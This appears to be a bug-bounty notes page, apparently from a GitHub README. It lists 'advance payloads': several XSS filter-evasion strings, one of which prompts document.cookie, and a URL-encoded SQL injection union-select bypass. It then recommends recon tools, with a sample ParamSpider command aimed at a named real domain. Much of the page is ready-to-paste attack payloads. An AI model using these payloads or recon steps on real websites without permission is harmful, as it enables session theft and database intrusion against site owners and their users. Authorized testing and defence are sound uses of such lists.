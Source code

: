 #### &#x20;Advance Payloads:-

&#x20;**for XSS**

```
1. <marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>  

		'">><marquee><img src=x onerror=confirm(1)></marquee>"
  
		></plaintext\></|\><plaintext/onmouseover=prompt(1)
  
		><script>prompt(1)</script>@gmail.com<isindex
  
		formaction=javascript:alert(/XSS/) type=submit>'-->"
  
		></script><script>alert(1)</script>"><img/id="confirm&lpar;
  
		1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
  ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
		></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))
		</SCRIPT>

		“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

&#x20;**for SQL injection used URL encode**

```
2. /*!50000%75%6e%69on*/%73%65%6cect 1,2,3,4,...                                     
```

#### &#x20;Personal Recommended tools (Left to Right Priority):-

&#x20;**for subdomains**

```
1. Subfinderv2,Amass,Sublister,crtsh   
```

&#x20;**for Finding Parameters**

```
2. Arjun,ParamSpider,Parameth 
ex: for paramspider:- python3 paramspider.py --domain healthifyme.com --exclude woff,css,js,png,svg,php,jpg --output healthifyme.txt
```

&#x20;**for Separating https & http**

```
3. httpx(With Title),httprobe
```

&#x20;**for Subdomains,cloud Services subdomains in js files, Use the Shannon Entropy**

```
4. SubDomainizer
5.Link Discovery by GoSpider|Hakrawler|Burp Suite Pro & use advance scope as keyword 'Twitch'
```

